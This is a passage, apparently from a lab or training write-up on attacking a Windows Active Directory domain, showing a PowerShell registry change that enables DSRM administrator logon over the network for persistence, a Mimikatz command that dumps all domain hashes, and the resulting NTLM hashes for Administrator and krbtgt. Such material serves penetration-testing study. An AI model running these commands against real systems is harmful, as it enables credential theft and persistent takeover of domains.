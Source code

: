 * DSRM: `56df9bfe3024dd4eb25b412ead89fe08`

<br/>

To persist, enable DSRM usage over network:

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonbehavior" -Value 2 -PropertyType DWORD
```

![picture 27](images/5efad717b6939b2377402a7356b68255e1dac2dacaaa95cd938f1a1aa63db95f.png)  

<br/>

Dump all hashes:

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```
Domain : ATOMIC / S-1-5-21-95921459-2896253700-3873779052                                                                                                                                                           
                                                                                                                                                                                                                    
RID  : 000001f4 (500)                                                                                                                                                                                               
User : Administrator                                                                                                                                                                                                
LM   :                                                                                                                                                                                                              
NTLM : c49927a1eb5a335dfb681db95d3a45a2                                                                                                                                                                             

RID  : 000001f5 (501)
User : Guest
LM   : 
NTLM : 

RID  : 000001f6 (502)
User : krbtgt
LM   : 
NTLM : 5d14653ad207e053f2dbb9e3833b08bf

RID  : 000001f7 (503)
User : DefaultAccount
LM   : 
NTLM : 

RID  : 00000457 (1111)
User : atasrv
LM   : 
```